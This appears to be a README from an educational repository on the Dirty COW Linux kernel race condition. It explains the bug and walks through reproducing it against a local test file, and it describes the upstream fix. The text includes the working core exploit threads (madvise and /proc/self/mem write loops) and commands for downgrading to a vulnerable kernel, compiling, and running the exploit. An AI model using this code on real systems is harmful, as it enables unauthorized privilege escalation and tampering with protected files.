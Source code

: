 
# Dirty Cow exploit

## Exploit Overview
"A race condition was found in the way Linux kernel's memory subsystem
handled breakage of the read only private mappings COW situation on
write access.

An unprivileged local user could use this flaw to gain
write access to otherwise read only memory mappings and thus increase
their privileges on the system." - [From Redhat CVE](https://bugzilla.redhat.com/show_bug.cgi?id=1384344#)

The exploit leverages two functions madvise(MADV_DONTNEED) and open("/proc/self/mem",O_RDWR), to create a race condition between the two. Simply stated, we map the file to be changed to a copy that we can write to. We aren't able to write this copied file to the original file because we don't have the necessary permissions, however we are able to circumvent this via the race condition.

The first function, madvise, looks like this:

```
void *madviseThread(void *arg){
    char *str;
    str=(char*)arg;
    int i,c=0;
    for(i=0;i<100000000;i++)
    {
        c+=madvise(map,100,MADV_DONTNEED);
    }
    printf("madvise %d\n\n",c);
  }
```
The madvice call is used mainly for optimization by allowing the user to give advice/directions to the kernel about how the given address range will be used. In this case we tell it that we don't need the first 100 bytes by passing 100, MADV_DONTNEED. The man page specifies that this means "do not expect access in the near future" and that the memory access will differ now in that any "subsequent accesses of pages in the range will succeed, but will result in either repopulating the memory contents from the up-to-date contents of the underlying mapped file". This is very important to the exploit as it tells us that everytime we try to access this file we will repopulate the contents, which is part of the race condition.

The second function, proc/self/mem uses 'proc' which acts a pseudo-file system that helps runs most file operations in linux (everything is a file is very powerful here). /proc/self/mem is a "file" that contains the current process' memory, which we use to write to our file.

```
void *procselfmemThread(void *arg){
    char *str;
    str=(char*)arg;
    int f=open("/proc/self/mem",O_RDWR);
    int i,c=0;
    for(i=0;i<100000000;i++) {
        lseek(f,(uintptr_t) map,SEEK_SET);
        c+=write(f,str,strlen(str));
    }
    printf("procselfmem %d\n\n", c);
}
```
The above code attempts to write the passed argument string in the memory of the process in the location of the mapped file. This tries to write to the copy of the file, creating a copy-on-write event. 

This should not work and the two methods working independent of each other would not cause such an exploit to occur, but when raced against each other, an edge case occurs in which the actual file is written to instead of the mapped file. Simply stated, the race condition occurs when the file map that has been dropped from memory using madvise has not been completely written to the mapped memory when the procselfmem thread attempts to write. This is because the page table entry that points to our mapped memory has not been written yet and when we write, the page table directs this write to the original file, rather than the mapped one. By doing this over and over again for a large amount of times we can reliably execute this exploit. This allows us, for this simple case, to write to a file with root only write permission.

## Compilation

This is a relatively recent zero day and as such works on any of the kernels before the ones listed below, as they are the ones where the patch was added:

[Patched Kernels](https://github.com/dirtycow/dirtycow.github.io/wiki/Patched-Kernel-Versions)

If your kernel is newer, use the following commands based on your operating system, where $image-number-here$ is a kernel number before the ones in the link above. We highly recomend you search for the complete image name in your prefered OS and replace it below, as only the image number will not be the entire name of the package.

####Ubuntu
```
sudo apt-get install linux-image-$image-number-here$
sudo apt-get install linux-headers-$image-number-here$
```
####Debian
```
aptitude install linux-image-$image-number-here$
aptitude install linux-headers-$image-number-here$
```
####Arch
```
pacman -U linux-$image-number-here$.pkg.tar.xz linux-headers-$image-number-here$.pkg.tar.xz
```
After you downgrade your kernel, the compilation is as such

```
gcc -pthread dirtyc0w.c -o dirtyc0w
```
The -pthread option is included because of the multithread aspect of the exploit, the man page for gcc tells us that it "Adds support for multithreading with the pthreads library. This option sets flags for both the preprocessor and linker".

## Running

Running the exploit is pretty simple. First, compile the dirtyc0w.c file as shown above.
Second, run the setup.sh script.
```
./setup.sh
```
This creates a file called 'protected_file' that is writeable only by root but readable by all and contains the string 'protected contents. Finally, run the run.sh script.
```
./run.sh
```
This will print out details about the file and its contents, then run the exploit and print the same details again. The run.sh script pushes 'Overwritten!' into the protected file and does not modify any of its details, including the modification time and the user privilages.

## Fixes

The easiest way to fix this bug is to upgrade your kernel to one of the patched kernels linked in the compilation section. In essence, the patch adds a dirty bit to make sure that the file has been completely copied to the mapped memory before it allows for writing. For more information about the fix, check out the patch notes [here](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/commit/?id=19be0eaffa3ac7d8eb6784ad9bdbc7d67ed8e619).

## Additional Resources

For other variations on the race condition described above, check out the dirty cow [website](https://dirtycow.ninja/) and for a more detailed walkthrough of the code and the patch see this [video](https://www.youtube.com/watch?v=kEsshExn7aE).
